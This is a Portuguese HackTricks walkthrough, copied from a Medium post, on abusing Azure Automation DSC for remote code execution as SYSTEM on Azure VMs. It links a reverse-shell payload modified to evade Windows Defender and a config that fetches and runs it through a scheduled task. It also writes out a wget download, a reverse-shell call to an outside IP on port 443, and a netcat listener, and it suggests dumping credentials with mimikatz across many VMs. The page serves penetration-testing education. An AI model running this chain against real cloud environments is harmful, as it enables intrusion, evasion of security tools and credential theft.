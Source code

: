 # Az - State Configuration RCE

<details>

<summary><strong>Aprenda hacking no AWS do zero ao herói com</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Outras formas de apoiar o HackTricks:

* Se você quer ver sua **empresa anunciada no HackTricks** ou **baixar o HackTricks em PDF**, confira os [**PLANOS DE ASSINATURA**](https://github.com/sponsors/carlospolop)!
* Adquira o [**material oficial PEASS & HackTricks**](https://peass.creator-spring.com)
* Descubra [**A Família PEASS**](https://opensea.io/collection/the-peass-family), nossa coleção de [**NFTs**](https://opensea.io/collection/the-peass-family) exclusivos
* **Participe do grupo** 💬 [**Discord**](https://discord.gg/hRep4RUj7f) ou do grupo [**telegram**](https://t.me/peass) ou **siga**-me no **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Compartilhe suas técnicas de hacking enviando PRs para os repositórios github do** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>

**Este post foi copiado de** [**https://medium.com/cepheisecurity/abusing-azure-dsc-remote-code-execution-and-privilege-escalation-ab8c35dd04fe**](https://medium.com/cepheisecurity/abusing-azure-dsc-remote-code-execution-and-privilege-escalation-ab8c35dd04fe)

### Preparação da Infraestrutura do Servidor Remoto (C2) <a href="#f0fa" id="f0fa"></a>

Estarei hospedando uma versão simplificada do payload Nishang Invoke-PowerShellTcp.ps1 do servidor remoto "40.84.7.74", que é a máquina Kali. O nome do payload será "RevPS.ps1". Para evitar que o script Nishang seja excluído pelo Windows Defender por qualquer motivo (talvez você prefira salvar o arquivo no disco), aqui está uma versão simplificada que você pode usar e que evitará o Defender: [https://github.com/nickpupp0/AzureDSCAbuse/blob/master/RevPS.ps1](https://github.com/nickpupp0/AzureDSCAbuse/blob/master/RevPS.ps1). Isso será hospedado por um simples Servidor Python Simples na máquina Kali.

### Passo 1 — Criar Arquivos <a href="#89de" id="89de"></a>

Precisaremos criar outro arquivo de configuração DSC. Um modelo pode ser baixado aqui: [https://github.com/nickpupp0/AzureDSCAbuse/blob/master/reverse\_shell\_config.ps1](https://github.com/nickpupp0/AzureDSCAbuse/blob/master/reverse\_shell\_config.ps1). Este arquivo de configuração usará a mesma função de escrita de arquivo que usamos anteriormente. Desta vez, o conteúdo inclui código para baixar e executar um payload do nosso servidor remoto. Além disso, estamos usando uma função de tarefa agendada disponível no módulo _ComputerManagementDsc_. A função de tarefa agendada terá um papel chave na execução e nos fornecerá privilégios de SYSTEM mais tarde.

Também baixaremos um script que será usado para publicar nossa configuração na VM. Ele está localizado aqui: [https://github.com/nickpupp0/AzureDSCAbuse/blob/master/push\_reverse\_shell\_config.ps1](https://github.com/nickpupp0/AzureDSCAbuse/blob/master/push\_reverse\_shell\_config.ps1).

Esses arquivos servirão como um modelo. **Você precisará preencher os nomes das variáveis e parâmetros com o que você está usando**. Isso inclui os nomes dos recursos, caminhos de arquivos e os nomes do servidor/payload externo que você está usando. Por favor, consulte os comentários no código.

<figure><img src="../../../../.gitbook/assets/image (3) (1) (1) (1) (2).png" alt=""><figcaption></figcaption></figure>

### Passo 2 — Compactar Arquivo de Configuração <a href="#c2c2" id="c2c2"></a>

Com nossos dois arquivos criados, vamos compactar o arquivo **‘reverse\_shell\_config.ps1’** para que possa ser enviado para a Conta de Armazenamento
```
Compress-Archive -Path .\reverse_shell_config.ps1 -DestinationPath .\reverse_shell_config.ps1.zip
```
### Passo 3 — Configurar Contexto de Armazenamento & Upload <a href="#bed9" id="bed9"></a>

Novamente, vamos configurar o contexto da nossa Conta de Armazenamento, o que eu já fiz. Eu já tenho um contêiner chamado '**azure-pentest**', então é aqui que farei a publicação:
```
Set-AzStorageBlobContent -File "reverse_shell_config.ps1.zip" -Container "azure-pentest" -Blob "reverse_shell_config.ps1.zip" -Context $ctx
```
### Passo 4 — Preparar Kali Box <a href="#20fb" id="20fb"></a>

Em nossa Kali box, podemos simplesmente usar _wget_ para baixar nosso payload do PowerShell. O script do reverse-shell em sua forma bruta está localizado aqui: [https://raw.githubusercontent.com/nickpupp0/AzureDSCAbuse/master/RevPS.ps1](https://raw.githubusercontent.com/nickpupp0/AzureDSCAbuse/master/RevPS.ps1).
```
wget https://raw.githubusercontent.com/nickpupp0/AzureDSCAbuse/master/RevPS.ps1
```
```markdown
<figure><img src="../../../../.gitbook/assets/image (8) (2).png" alt=""><figcaption></figcaption></figure>

Precisamos editar o script de reverse-shell adicionando nossos parâmetros, para que a VM do Windows saiba onde se conectar após a execução. No meu caso, adicionei o seguinte:
```
```
RevPShell -Reverse 40.84.7.73 443
```
### Passo 5 — Publicar Arquivo de Configuração <a href="#9ad6" id="9ad6"></a>

Agora vamos executar nosso arquivo de configuração. Eu configurei o meu para ser publicado na Área de Trabalho para uma melhor visualização, no entanto, ele pode ser publicado em praticamente qualquer lugar. Após alguns minutos, veremos que o script de reverse-shell foi publicado!

### Passo 6 — Hospedar Payload e Configurar Listener <a href="#c55f" id="c55f"></a>

Uma vez que publicamos a configuração, podemos iniciar simultaneamente um Python SimpleHTTPServer na porta 80 para hospedar o payload, juntamente com um listener netcat para capturar a conexão:
```
sudo python -m SimpleHTTPServer 80sudo nc -nlvp 443
```
Vemos que a tarefa agendada foi executada e nosso payload foi recuperado e executado na memória com privilégios de nível **SYSTEM**!

<figure><img src="../../../../.gitbook/assets/image (1) (3) (1).png" alt=""><figcaption></figcaption></figure>

### Conclusão <a href="#1ec2" id="1ec2"></a>

Isso agora abre a porta para muitas possibilidades. Como temos um shell rodando como **SYSTEM**, podemos despejar credenciais com mimikatz (potencialmente arriscado dependendo da maturidade do EDR para recursos na nuvem). Se você despejar credenciais, há uma boa chance de que elas possam ser reutilizadas em diferentes recursos. Por último, uma grande lição é que, em vez de limitar isso a uma VM, você agora tem a capacidade de potencialmente aplicar essa configuração em várias VMs.

Com isso, concluímos nossas aventuras com Azure Automation DSC! Espero que você tenha se divertido, aprendido muito e continue a expandir com sua própria criatividade.

<details>

<summary><strong>Aprenda hacking no AWS do zero ao herói com</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Outras formas de apoiar o HackTricks:

* Se você quer ver sua **empresa anunciada no HackTricks** ou **baixar o HackTricks em PDF**, confira os [**PLANOS DE ASSINATURA**](https://github.com/sponsors/carlospolop)!
* Adquira o [**material oficial PEASS & HackTricks**](https://peass.creator-spring.com)
* Descubra [**A Família PEASS**](https://opensea.io/collection/the-peass-family), nossa coleção de [**NFTs**](https://opensea.io/collection/the-peass-family) exclusivos
* **Junte-se ao grupo** 💬 [**Discord**](https://discord.gg/hRep4RUj7f) ou ao grupo [**telegram**](https://t.me/peass) ou **siga-me** no **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Compartilhe suas técnicas de hacking enviando PRs para os repositórios do GitHub** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
